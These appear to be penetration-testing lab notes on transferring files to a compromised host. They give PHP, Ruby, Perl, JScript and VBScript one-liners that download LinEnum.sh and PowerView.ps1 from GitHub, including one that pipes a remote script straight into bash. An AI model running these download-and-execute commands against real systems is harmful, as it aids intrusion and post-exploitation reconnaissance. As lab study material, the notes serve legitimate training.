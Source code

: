 - php

```php
Sauuron@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'

# Using fopen() module

php -r 'const BUFFER = 1024; $fremote = 
fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'

# Download and pip to bash

php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash

```

- Ruby

```ruby
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```

- Perl

```perl
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```

- Javascript

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

- Usage on Windows using cscript.exe
```shell
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```

- VBScript

```vbscript
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```
